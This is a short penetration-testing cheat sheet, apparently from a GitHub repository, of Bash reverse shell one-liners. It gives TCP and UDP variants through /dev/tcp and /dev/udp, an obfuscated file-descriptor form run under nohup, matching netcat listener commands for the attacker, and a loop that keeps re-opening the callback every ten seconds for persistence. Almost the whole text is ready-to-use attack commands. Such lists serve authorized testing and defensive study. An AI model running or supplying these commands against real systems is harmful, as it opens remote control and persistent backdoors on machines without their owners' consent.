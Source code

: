 # Bash

## 01 - TCP Method

- Target

```
$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/tcp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

`user@pentestos:~$ nc -lnvp <LPORT>`

## 02 - UDP Method

- Target

```
$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/udp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

`user@pentestos:~$ nc -luvp <LPORT>`

## 03 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

`$ while true; do /bin/bash -c /path/to/shell; sleep 10; done`

`$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done`

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)